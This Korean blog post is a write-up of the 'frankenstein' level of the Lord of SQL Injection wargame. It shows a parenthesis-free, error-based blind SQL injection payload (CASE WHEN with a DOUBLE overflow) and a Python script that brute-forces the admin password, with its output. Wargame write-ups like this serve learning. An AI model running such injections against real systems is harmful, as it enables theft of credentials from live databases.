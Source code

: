```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - frankenstein 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


용 시리즈 끝났더니 너무 어렵다 ㅠㅠ  

물론 풀타임으로 계속 고민하진 않았지만 이거 푸는데 너무 오래걸렸다.  

드디어 풀었다!  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw=''
---------------------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

문제 보자마자 읭? 했다.  

일단 괄호가 다 필터링 되어있다.  

근데 `error`를 뱉어주니, `Error Based Blind SQL Injection` 같은데, 문제는 `union`도 필터링 되어 있기 때문에 이 전에 문제를 풀기 위해 사용했던 서브쿼리에서 오류 발생시키기 방법을 사용하지 못한다는 거다.  

일단 초점은 맞췄던 것은 `조건문을 쓰는데 괄호 없이 어떻게 사용하는가!` 였다.  

서브쿼리를 괄호 없이 쓰는 법이 있나... 좀 오래 고민했는데, 다 풀고나니 내가 MySQL 문법만 제대로 알았더라도 이미 풀고도 남았던 문제였다.  

~~바보 인증 또함~~  

내가 사용한 문법은 다음과 같다.  

```
case when 조건 then 참일 때 else 거짓일 때 end
```

이렇게 하면 괄호 없이도 조건문을 사용할 수 있다.  

사실 이거 한참 전에 한번 시도해 봤던 문법인데, 뒤에 `end`를 붙여야 한다는 사실을 몰랐다.  

그래서 뭘 해도 오류가 나길래 `아 이거 안되는 건가보다` 이러고 넘겼는데, 오늘 다시 인터넷에 찾아보니 뒤에 `end`가 있더라.  

`혹시나...?` 하고 뒤에 `end`를 붙여서 내 서버에서 테스트 해 보니 매우 잘ㅋ됨ㅋ  

뭔가 갑자기 신나져서 막 코드 짜서 바로 돌려보았다.  

그랬더니 `pw` 값을 얻을 수 있었다.  

문제를 풀기 위해서 사용한 전체 쿼리는 다음과 같다.  

```
pw=1' or case when id='admin' and pw like 'a%' then 9e307*2 else 0 end#
```

이러면 만약 `id='admin' and pw like 'a%'`가 참일 경우에는 `9e307*2`가 실행되고 아닐 경우에는 `0`을 실행한다.  

그런데 `9e307*2`는 MySQL에서 `ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'`라는 오류를 준다.  

때문에 문제에서는 `error`만을 출력한 후 `exit` 하게 된다.  

`pw like 'a%'`는 이 전에도 한번 사용한 적이 있는데, `like`을 사용 할 경우 정규표현식 처럼 사용할 수 있다.  

`%`가 `모든 문자`를 의미하기 때문에 `a%`라고 하면 `a로 시작하고 뒤에 어떤 문자열이라도 붙어 있는 경우`를 체크한다.  

즉 `pw='a%'`는 `apple`, `abc` 모두 참이 나온다.  

이를 바탕으로 코드를 짜면 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""

url = "http://los.rubiya.kr/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 40):
	found = False
	for i in range(48, 128):
		try:
			query = url + "1' or case when id='admin' and pw like '" + flag +  chr(i) + "%' then 9e307*2 else 0 end%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if '<br>error' in r.text:
			flag += chr(i)
			print "[+] Found", str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 아래와 같이 무려 `한번에!` 값을 구할 수 있었다.  

좀 간만에 오류 없이 한방에 나와서 기분이 좋았다.  

아 아니구나 `두 번 만에` 나왔다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0D
[+] Found 3 : 0DC
[+] Found 4 : 0DC4
[+] Found 5 : 0DC4E
[+] Found 6 : 0DC4EF
[+] Found 7 : 0DC4EFB
[+] Found 8 : 0DC4EFBB
[+] Found password finished
[+] Found password :  0DC4EFBB
[+] End
```

이번에도 소문자로 입력하면 된다.  

아예 비교하는 대상 문자열을 내가 알파벳 소문자로 두면 될텐데 뭔가 귀찮아서 걍 `아스키코드 숫자 ~ 문자` 범위로 하다보니 맨날 대문자가 먼저 나온다.  

언젠간 고치겠지 뭐...  

아래처럼 입력하면 문제를 풀 수 있다.  

```
?pw=0dc4efbb
```

씐난다!  

기분 좋게 집 갈 수 있다!  

```php
------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_frankenstein where id='frankenstein' and pw='0dc4efbb'
------------------------------------------------------------------------------------------------------------------------

FRANKENSTEIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```

`FRANKENSTEIN Clear!!`